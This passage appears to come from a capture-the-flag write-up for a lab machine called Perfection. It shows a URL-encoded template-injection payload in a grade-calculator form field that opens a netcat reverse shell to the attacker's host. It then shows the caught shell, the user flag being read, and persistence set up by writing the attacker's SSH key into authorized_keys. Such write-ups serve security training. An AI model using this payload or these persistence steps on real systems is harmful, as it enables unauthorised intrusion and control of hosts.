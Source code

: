 ```
Connection: close
Referer: http://10.10.11.253/weighted-grade-calc
Upgrade-Insecure-Requests: 1

category1='print(`echo%20AHOHOK%0aecho%20$((14%2B28))%0aecho%20AHOHOK%0aecho%20AHOHOK`)%3BAHOHOK%20%3c%25%3d%20%73%79%73%74%65%6d%28%22%72%6d%20%2f%74%6d%70%2f%66%3b%6d%6b%66%69%66%6f%20%2f%74%6d%70%2f%66%3b%63%61%74%20%2f%74%6d%70%2f%66%7c%73%68%20%2d%69%20%32%3e%26%31%7c%6e%63%20%31%30%2e%31%30%2e%31%34%2e%33%20%36%39%36%39%20%3e%2f%74%6d%70%2f%66%22%29%20%25%3e&grade1=10&weight1=100&category2=N%2FA&grade2=0&weight2=0&category3=N%2FA&grade3=0&weight3=0&category4=N%2FA&grade4=0&weight4=0&category5=N%2FA&grade5=0&weight5=0

# Receiving reverse shell
$ nc -lvnp 6969
listening on [any] 6969 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.11.253] 35270
sh: 0: can't access tty; job control turned off
$ whoami
susan
$ cat ~/user.txt
SECRETSECRETSECRETSECRET
```

### 3.3 Obtaining A SSH Session

To get an interactive Shell with SSH, we need to add our ssh public key to the authorized\_keys file inside .ssh directory in susan's home folder:

```
# OUR MACHINE
$ cat ~/.ssh/id_ed25519.pub
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIC85oqEOhsywZwiTnVdefSp025Zf4krlhcIM4q0U5p9C kali@kali

# SUSAN'S MACHINE
$ echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIC85oqEOhsywZwiTnVdefSp025Zf4krlhcIM4q0U5p9C kali@kali" > ~/.ssh/authorized_keys

# OUR MACHINE
$ ssh susan@perfection.htb
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-97-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

  System information as of Fri Mar 29 04:34:34 AM UTC 2024

  System load:           0.0
  Usage of /:            68.7% of 5.80GB
  Memory usage:          15%
  Swap usage:            0%
  Processes:             250
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.253
  IPv6 address for eth0: dead:beef::250:56ff:feb9:8617


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

4 additional security updates can be applied with ESM Apps.
Learn more about enabling ESM Apps service at https://ubuntu.com/esm


```